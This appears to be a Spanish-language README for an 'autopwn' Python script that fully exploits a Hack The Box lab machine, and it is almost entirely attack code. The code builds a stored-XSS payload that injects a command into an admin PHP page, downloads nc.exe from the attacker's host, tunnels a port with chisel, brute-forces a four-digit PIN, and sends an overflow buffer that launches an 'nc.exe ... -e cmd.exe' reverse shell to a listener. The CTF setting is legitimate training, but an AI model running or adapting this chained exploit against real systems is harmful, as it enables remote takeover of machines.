

# Autopwn - EarlyAccess

En caso de no haber realizado la máquina Bankrobber, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Bankrobber) para comprender el autopwn.

<p align="center">
	
</p>

# Funcionamiento

El primer paso que realiza el script es en la creación del archivo, el cual primero descargara el binario **nc.exe** y luego ejecuta el **Chisel** como cliente.

```python3
content = f"""var request = new XMLHttpRequest();
var pwn = 'cmd=dir|powershell -c "iwr http://{MyIP}/nc.exe -outfile %temp%\\\\nc.exe" |start \\\\\\\\{MyIP}\\\\pwn\\\\chisel.exe client {MyIP}:8080 R:910:127.0.0.1:910';
request.open("POST", "http://localhost/admin/backdoorchecker.php", true);
request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
request.send(pwn);
"""

with open('pwn.js', 'w') as file:
	file.write(content)
```
Despues, crea y ejecuta los servidores **HTTP** y **SMB**, junto con **Chisel**, en segundo plano.
```python3
http_server = subprocess.Popen(["python3","-m","http.server","80"],stdout=subprocess.PIPE,stderr=subprocess.PIPE, text=True)

chisel_server = subprocess.Popen(["./chisel","server","-p","8080", "--reverse"],stdout=subprocess.DEVNULL,stderr=subprocess.DEVNULL)


def smb_server():
    server = SimpleSMBServer()
    server.addShare("pwn", ".")
    server.setSMB2Support(True)
    server.start()

threading.Thread(target=smb_server, daemon=True).start()
```

Mientras, la función **register** crea el usuario que enviará el **XSS** al usuario admin, y la función  **login** obtiene el **ID** de dicho usuario para poder enviar el mensaje.

```python3
def register():

	url_register = main_url + "/register.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = requests.post(url_register, data=data)

	ID = login()

	return ID

def login():
	url_login = main_url + "/login.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = s.post(url_login, data=data)

	ID = s.cookies.get_dict()["id"]

	return ID
```
Con el **ID** ya obtenido, la función **Send_XSS** envía el mensaje y monitorea el servidor **HTTP** en espera de una petición **GET**. Para garantizar su persistencia, el mensaje se reenvía cada minuto en caso de que sea eliminado. Una vez que la petición es recibida, el proceso vuelve a esperar hasta que el puerto **910** es abierto.

```python3
def Send_XSS(ID):

	url_shell = main_url + "/user/transfer.php"

	headers= {
	"Content-Type": "application/x-www-form-urlencoded"
	}

	data = {
		"fromId": ID,
		"toId": "1",
		"amount": "1",
		"comment": "<script src='http://%s/pwn.js'></script>" % MyIP
	}

	threading.Thread(target=logs_get, daemon=True).start()

	r = s.post(url_shell, data=data, headers=headers)


	while "GET" not in line:
		r = s.post(url_shell, data=data, headers=headers)
		time.sleep(60)

	while True:
		if check_port("0.0.0.0", 910):
			threading.Thread(target=brutef_buffer, daemon=True).start()
			break

def check_port(host, port):
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
			sock.settimeout(1)
			result = sock.connect_ex((host, port))
			return result == 0


def logs_get():
	global line
	line = http_server.stderr.readline().strip()
	print(line)
```

Tras la apertura del puerto **910** comienza el ataque de fuerza bruta en segundo plano, mientras por otro lado, es puesto en escucha, para recibir la shell como el usuario admin.

```python3
def brutef_buffer():

	buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\\Users\\Cortin\\AppData\\Local\\Temp\\nc.exe 10.10.14.13 444 -e cmd.exe"

	for pin in range(10000):

		pin = str(pin).zfill(4)

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(("127.0.0.1", 910))

		data = s.recv(1024)

		s.send(pin.encode() + b'\n')

		data = s.recv(1024)

		if "Access denied" not in data.decode():
			print(pin)
			s.send(buffer.encode() + b'\n')
			s.close()
			break

		time.sleep(2)

def receive_all(conn):
	# Recibe datos en un bucle hasta que no haya más.
	data = b""
	conn.settimeout(2)  # Tiempo de espera breve para evitar bloqueos
	try:
		while True:
			chunk = conn.recv(4096)
			if not chunk:
				break
			data += chunk
	except socket.timeout:
		pass  # El timeout indica que no hay más datos por recibir
	return data.decode("ISO-8859-1", errors="ignore") # Devuelve los datos decodificados en ISO-8859-1, ignorando errores en la conversión


def R_Shell():

	HOST = "0.0.0.0"
	PORT = 444

	server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	server.bind((HOST, PORT))
	server.listen(5)  # Permite múltiples conexiones

	cont = 0


	while True:
		conn, addr = server.accept()

		while True:
			if cont == 0:
				conn.send("taskkill /IM chisel.exe /F".encode() + b"\n")

			time.sleep(1)
			command = input("$ ")
			if command.lower() == "exit":
				conn.send(b"exit")
				conn.close()
				break
			conn.send(command.encode() + b"\n")
			result = receive_all(conn)
			print(result)
			cont = 1
```
